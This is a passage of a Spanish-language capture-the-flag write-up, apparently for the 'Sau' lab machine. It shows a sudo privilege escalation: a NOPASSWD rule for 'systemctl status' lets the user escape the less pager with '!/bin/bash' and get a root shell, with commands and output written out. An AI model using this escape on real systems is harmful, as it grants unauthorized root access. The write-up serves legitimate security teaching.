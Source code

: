 ```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Como podemos ver, podemos ejecutar el comando **/usr/bin/systemctl status trail.service** con privilegios de sudo, sin contraseña.

Podemos ver qué versión de **systemd** está instalada en el sistema:

````bash
$ systemctl --version
systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```
Podemos intentar ejecutar comandos dentro de systemctl, ya que usa de forma predeterminada el paginador **less** y podríamos ejecutar comandos con el eUID (en este caso 0, ya que lo ejecutamos como sudo) poniendo la exclamación **!** dentro de **less**.

```bash
$ sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
```
Ejectuamos el comando con **!/bin/bash** y obtenemos la shell como usuario root :)

```bash
root@sau:/opt/maltrail# whoami
whoami
root
```

Esta explotación se debe a que **systemd** no tiene configurada la variable **LESSSECURE** en 1, lo que haría que no pudiésemos ejecutar comandos dentro de less, por lo que combinamos la falta de configuración con una configuración errónea en el archivo **/etc/sudoers**.

Keep hacking!

## Vídeo Walkthrough

<iframe width="100%" height="400" src="https://www.youtube.com/embed/VrlwAxNBx48" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
